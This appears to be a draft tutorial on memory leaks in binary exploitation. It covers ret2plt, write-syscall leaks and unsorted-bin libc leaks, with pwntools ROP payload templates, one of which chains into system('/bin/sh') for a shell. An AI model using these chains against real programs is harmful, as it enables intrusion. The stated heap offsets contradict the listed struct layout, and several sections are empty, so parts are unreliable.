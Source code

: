 ```yaml
---
layout: post
title: Information Disclosure
description:
date: 2025-09-27
categories:
  - pwn
  - leaks
tags:
  - info-leak
---
```

# Information/Memory Leaks In Binary Exploitation


## What is a memory leak?
A **information/memory leak** is any primitive in a binary that reveals bytes from the program's memory such as addresses, pointers, strings and even metadata. Information leaks help bypass security mitigations such as Address Space Layout Randomiation (ASLR), Position Independent Executable (PIE), etc. by giving you an pointer that you can use to compute a base address such libc, PIE, heap, etc. base addresses

## Why do they matter?

- The can be used to bypass exploit mitigations that depend on randomization such as ASLR or stack canaries.
- They can disclose information meant to be secrets in memory.

## Common leak Primitives

### Uninitialized Data Access (UDA)

When a program uses a local variable that has not been explicitly initialized, it may contain data left over from previous stack frames. If this initialized variable is used and printed to the user, it can leak information like memory addresses or user data.
### Format String Read

### Return Oriented Programming (ROP)

#### Ret2plt
The goal of this technique is to call `puts` or `printf` with the Global Offset Table (GOT) entry of a libc function to print its resolved address. The leaked address/pointer can be used to compute `libc_base` address. 

Process:
1. Overflow into saved return address.
2. Call `puts@plt` or `printf@plt` with GOT entry.
3. Return to main.
4. Use leak to compute `libc_base` address
	- e.g. lets say we leaked the GOT entry for `puts` then `libc_base = leaked_address - libc.symbols['puts]`
5. Use leak to pwn the binary.

Payload Example (pwntools)

```python
payload = flat(
	cyclic(offset), # offset = overflow offset to saved return address
	pop_rdi, # 'pop rdi; ret' gadget
	puts_got, # puts GOT entry | into rdi register
	puts_plt, # call puts 
	main_addr, # return to main to send second stage
)
# recv leak and unpack
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
# compute libc base
libc.address = leak - libc.symbols['puts']
# from here use libc base to get shell
second_stage_payload = flat(
	cyclic(offset),
	pop_rdi,
	next(libc.search(b"/bin/sh")),
	libc.symbols['system']
)
# send second stage and get shell
```

#### Write Syscall
If a binary exports a `write` or has the `syscall` gadget, you can directly write raw memory to standard output `stdout`. This is useful when RELRO prevents GOT modification or when you want to avoid PLT resolution issues.

This technique needs the following gadgets:
- `pop rdi` -> 1 (stdout)
- `pop rsi` -> target address
- `pop rdx` -> size

If the gadgets are not available you can use the [ret2csu](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2csu) technique to populate those registers.

Process:
- Overflow into saved return address
- populate the registers.
- call `write`. If `write` is not exported the populate the `rax/eax` registers with correct system call number and call the `syscall` gadget.

Example

```python
# if write plt is available
payload = flat(
	cyclic(offset), #  offset = overflow offset to saved return address
	pop_rdi_rsi_rdx, # `pop rdi; pop rsi; pop rdx` gadgets
	0x1, #rdi
	target_addr, #rsi
	0x20, # rdx
	write_plt 
)
# or
payload = flat(
	cyclic(offset), #  offset = overflow offset to saved return address
	pop_rdi_rsi_rdx, # `pop rdi; pop rsi; pop rdx` gadgets
	0x1, #rdi
	target_addr, #rsi
	0x20, # rdx
	pop_rax,
	syscall_write_num,
	syscall_gadget
)
```

### Use-After-Free

#### Libc leak via unsorted bin

A common technique to get libc leak is to free a big chunk (larger than 0x400 bytes) so it gets into the unsorted bin. The unsorted bin is a doubly linked list and its list head is stored in the libc's data section, when we free a chunk into the unsorted bin for the first time, its backward pointer (`bk`) then points into the libc, at a known offset. If we can leak this pointer, than we can compute the base address of libc.

**What If we do not control the size of the heap memory allocations?**

A double free vulnerability would be used to get an chunk that overlaps with another chunk's metadata, this way we can modify the chunk's metadata to make the allocator think it is a big chunk and place it in the unsorted bin upon freeing it.

A small problem is that when a chunk is allocated if it borders the top chunk of the heap, it is placed back into the top chunk when we free it. We can prevent this by placing a another chunk (often called a guard chunk) between our big chunk and the top chunk without freeing it, this prevent the allocator from returning the big chunk to the top of the heap, thus placing it in a bin.

free chunk structure

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk, if it is free. */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```

The address/pointer that will help compute the libc base address is at offset :

 **32 bit**
  
```c
// metadata
prev_size; // -0x8
size; // -0x4
// end metadata
fd; // 0x0
bk; // 0x4
fd_nextsize; // 0x8
bk_nextsize; // 0xc
```

At offset `0xc`

**64 bit**
```c
prev_size; // -0x10
size; // -0x8
// end metadata
fd; // 0x0
bk; // 0x8
fd_nextsize; // 0x10
bk_nextsize; // 0x18
```

At offset `0x18`

Example

```c

```


### Stack/Heap Over-read
- 

### Out-Of-Bounds Read
- 